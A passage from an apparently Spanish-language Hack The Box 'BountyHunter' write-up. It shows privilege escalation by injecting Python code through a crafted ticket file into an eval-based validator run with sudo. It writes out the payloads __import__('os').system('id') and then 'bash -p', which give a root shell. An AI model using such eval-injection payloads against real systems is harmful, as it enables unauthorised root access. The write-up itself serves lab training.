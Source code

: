 La funcion "eval" de python tiene varias utilidades, sin embargo, es muy insegura, mas si dejas alguna variable controlada por el usuario dentro de esta funcion.

![](/assets/images/htb-writeup-bountyhunter/15_2.png)

![](/assets/images/htb-writeup-bountyhunter/15_3.png)

Nuestro archivo de prueba, el cual ejecutara el comando 'id', queda de la siguiente forma:

test.md:
```MarkDown
# Skytrain Inc
## Ticket to f0xtty
__Ticket Code:__
**11+__import__('os').system('id')
```

![](/assets/images/htb-writeup-bountyhunter/16.png)

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
test.md

![](/assets/images/htb-writeup-bountyhunter/17.png)

Ya que confirmamos que podemos ejecutar comandos como root, cambiamos el comando 'id' por 'bash -p' y nuestro archivo final queda asi:

test.md:
```MarkDown
# Skytrain Inc
## Ticket to f0xtty
__Ticket Code:__
**11+__import__('os').system('bash -p')
```

![](/assets/images/htb-writeup-bountyhunter/18.png)

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
test.md

![](/assets/images/htb-writeup-bountyhunter/19.png)
